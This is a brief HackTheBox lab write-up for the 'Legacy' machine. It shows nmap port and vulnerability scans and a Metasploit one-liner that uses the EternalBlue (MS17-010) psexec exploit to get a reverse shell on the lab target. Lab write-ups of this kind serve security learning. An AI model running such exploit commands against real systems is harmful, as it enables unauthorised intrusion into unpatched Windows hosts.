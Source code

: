 ```yaml
---
title: "Legacy - HTB"
categories: [HackTheBox,Easy]
tags: [HTB,Easy,Windows,EternalBlue,SMB,Metasploit]
mermaid: true
image: https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Legacy/Legacy.png
---
```


# Introdution

[https://app.hackthebox.com/machines/Legacy](https://app.hackthebox.com/machines/Legacy)

This is a box Windows easy, where is possible to explore the vuln EternalBlue.

**Have a good time!**

## Diagram

```mermaid
graph TD
	Enumeration --> SMB --> Exploration --> |EternalBlue| A((ROOT))
```

# Enumeration

First step is to enumerate the box. For this we’ll use `nmap`.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.10.4 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -Pn -p $ports 10.10.10.4
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Legacy/Untitled.png)

Two vulnerability was found related to **EternalBlue**.

```bash
sudo nmap -sS --script=vuln -p 135,139,445 10.10.10.4
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Legacy/Untitled%201.png)

# Exploration

## Exploring EternalBlue

We’ll use one of metasploit exploits.

```bash
msfconsole -q -x "use exploit/windows/smb/ms17_010_psexec; set rhosts 10.10.10.4; set lhost tun0; set lport 443; run"
```
